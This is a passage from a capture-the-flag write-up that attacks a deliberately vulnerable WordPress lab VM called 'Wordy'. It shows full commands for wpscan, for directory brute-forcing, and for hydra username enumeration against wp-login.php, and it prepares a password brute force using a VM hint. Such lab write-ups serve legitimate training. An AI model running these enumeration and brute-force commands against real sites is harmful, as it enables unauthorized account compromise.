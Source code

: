 
### Web Enumeration

```
$ ./h3xenumerator.sh -t $target -e .conf,.config,.bak,.backup,.swp,.old,.db,.sql,.asp,.aspx,.aspx~,.asp~,.py,.py~,.rb,.rb~,.php,.php~,.bak,.bkp,.cache,.cgi,.conf,.csv,.html,.inc,.jar,.js,.json,.jsp,.jsp~,.lock,.log,.rar,.old,.sql,.sql.gz,.sql.zip,.sql.tar.gz,.sql~,.swp,.swp~,.tar,.tar.bz2,.tar.gz,.txt,.wadl,.zip,.log,.xml,.js,.json,.jpg,.jpeg,.png,.gif,.bmp -w /opt/wordlists/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt -l 1
```

Since it's a Wordpress site, let's run wpscan against it :

```
$ wpscan --url http://wordy --api-token (REDACTED)
[...]
[+] WordPress version 5.1.1 identified (Insecure, released on 2019-03-13).
 | Found By: Rss Generator (Passive Detection)
 |  - http://wordy/index.php/feed/, <generator>https://wordpress.org/?v=5.1.1</generator>
 |  - http://wordy/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.1.1</generator>
 |
 | [!] 31 vulnerabilities identified:
```

After going through the vulnerabilities, I decided to go on for now, but let's keep those in mind just in case

The homepage of the site says :

_At Wordy, we know just how important it is to have secure plugins, and for this reason, we endeavour to provide the most secure and up-to-date plugins that are available on the market._

But after looking at /wp-content/plugin, it looks like there are no plugins installed.

One cool thing about Wordpress is the ability to easily validate usernames since the login page tells us if the user we entered is valid or not.

Let's try to enumerate valid users:

```
$ hydra -L /opt/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p nopassword wordy http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fwordy%2Fwp-admin%2F&testcookie=1:S=The password"
[...]
[80][http-post-form] host: 192.168.0.141   login: admin   password: nopassword
[80][http-post-form] host: 192.168.0.141   login: mark   password: nopassword
[80][http-post-form] host: 192.168.0.141   login: graham   password: nopassword
[80][http-post-form] host: 192.168.0.141   login: sarah   password: nopassword
[80][http-post-form] host: 192.168.0.141   login: jens   password: nopassword
```

Now that we have the name of 5 valid users, let's brute force the password for all of them. It's gonna take a long time to go through rockyou for all of those users. Luckily for us, there's a tip on the VM page :

> _OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job._
>
> _cat rockyou.txt \| grep k01 > passwords.txt That should save you a few years. ;-)_
